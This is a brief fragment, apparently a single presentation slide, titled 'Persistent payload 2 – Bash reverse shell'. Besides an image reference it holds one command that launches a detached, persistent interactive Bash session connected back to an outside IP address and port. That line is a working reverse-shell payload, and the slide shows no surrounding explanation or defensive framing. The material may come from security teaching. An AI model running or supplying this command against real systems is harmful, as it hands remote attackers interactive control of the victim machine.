

# Persistent payload 2 – Bash reverse shell
nohup bash -i >& /dev/tcp/192.168.0.70/8080 0>&1 & disown; exit